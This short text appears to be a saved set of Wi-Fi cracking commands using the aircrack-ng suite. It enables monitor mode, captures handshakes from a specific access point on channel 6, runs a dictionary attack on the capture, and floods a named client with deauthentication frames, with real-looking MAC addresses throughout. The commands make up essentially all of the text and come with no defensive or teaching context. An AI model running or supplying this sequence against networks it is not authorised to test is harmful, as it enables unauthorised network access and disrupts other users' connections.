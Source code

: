 sudo airmon-ng start wlan0 

sudo airodump-ng wlan0mon 

 sudo airodump-ng --bssid 14:75:90:67:E6:92 -c 6 -w /home/hr/ wlan0mon 
 
 sudo aircrack-ng -w /home/hr/下载/wifi_dictionary-master/password.txt /home-02.cap  
 
 sudo aireplay-ng -0 0 -c 50:8E:49:69:7C:0A -a 14:75:90:67:E6:92 wlan0mon
